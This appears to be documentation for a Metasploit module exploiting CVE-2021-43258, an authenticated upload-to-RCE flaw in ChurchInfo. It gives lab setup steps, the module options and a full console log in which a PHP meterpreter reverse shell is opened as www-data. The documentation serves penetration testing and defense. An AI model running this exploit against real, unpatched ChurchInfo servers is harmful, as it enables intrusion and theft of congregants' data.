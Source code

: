 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo v1.2.13, v1.2.14, and v1.3.0 contain functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258. Version 1.3.0 was the latest version of ChurchInfo at the time
of writing and there is presently no known patch for this issue.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/.

The following however is a quick and easy way to get most versions of ChurchInfo up and running using Docker,
which should make it a lot easier to setup and also clean up once you are finished testing things out.

1. `wget https://master.dl.sourceforge.net/project/churchinfo/churchinfo/1.3.0/churchinfo-1.3.0.tar.gz`
1. `tar -xvf churchinfo-1.3.0.tar.gz`
1. `sudo docker run -i -t -p "9090:80" -v ${PWD}/churchinfo:/app mattrayner/lamp:0.8.0-1804-php7`.
1. `sudo docker ps -a` and find the container ID that was created and which is now running.
1. `sudo docker exec -it *container ID* /bin/bash`
1. Inside the new prompt:
1. `mysqladmin -u root -p create churchinfo` and press the ENTER key when prompted for the password.
1. `cd /app/churchinfo/SQL`
1. `mysql -u root -p churchinfo < Install.sql` and press the ENTER key when prompted for the password.
1. `apt-get install nano` if you want to use Nano.
1. `nano /app/churchinfo/Include/Config.php`.
1. Set the `$sUSER` variable to `'root'`.
1. Set the `$sPASSWORD` variable to `''`.
1. Set the `$sRootPath` variable to `'/churchinfo'`. This should be default though.
1. Set the `$URL[0]` to `http://localhost/churchinfo/Default.php`.
1. Exit out of `nano` and run `/etc/init.d/apache2 restart`
1. Log in at `http://127.0.0.1:9090/churchinfo/Default.php` with the username `Admin` and password `churchinfoadmin`.
1. This should cause the app to redirect to a password change form.
1. Specify the old password, aka `churchinfoadmin` and then specify the new password twice and submit the form.
1. Go to `http://127.0.0.1:9090/churchinfo/PersonEditor.php` and fill out the form with as much detail as possible.
1. Click "Save and Add".

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `USERNAME`, and `PASSWORD` values.
1. Optional: Set the target `RPORT` if the ChurchInfo server is running on a different port than port 80.
1. Optional: `set SSL true` if the target is using SSL for ChurchInfo.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Read this now!`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Hello there!`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo v1.3.0 with MySQL 5.7.35 on Ubuntu Linux 18.04.2 LTS (Docker Image)
```
msf > use exploit/multi/http/churchinfo_upload_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/churchinfo_upload_exec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(multi/http/churchinfo_upload_exec) > set RPORT 9090
RPORT => 9090
msf exploit(multi/http/churchinfo_upload_exec) > set PASSWORD testing123
PASSWORD => testing123
msf exploit(multi/http/churchinfo_upload_exec) > show options

Module options (exploit/multi/http/churchinfo_upload_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EMAIL_MESG  Hello there!     yes       Email message in webapp
   EMAIL_SUBJ  Read this now!   yes       Email subject in webapp
   PASSWORD    testing123       yes       Password to login with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       9090             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /churchinfo/     yes       The location of the ChurchInfo app
   USERNAME    admin            yes       Username for ChurchInfo application
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.182.196   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf exploit(multi/http/churchinfo_upload_exec) > set LHOST docker0
LHOST => docker0
msf exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Target is ChurchInfo!
[+] The target is vulnerable. Target is running ChurchInfo 1.3.0!
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: Items in Cart: 2
[+] Uploading exploit via temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/ueNYs9.php
[+] Executing payload with GET request
[*] Sending stage (39927 bytes) to 172.18.0.2
[+] Deleted ueNYs9.php
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:37790) at 2022-11-18 17:44:31 -0600


meterpreter > getpid
Current pid: 452
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 8eeaa82293b4
OS          : Linux 8eeaa82293b4 5.15.0-53-generic #59-Ubuntu SMP Mon Oct 17 18:53:30 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter >
```
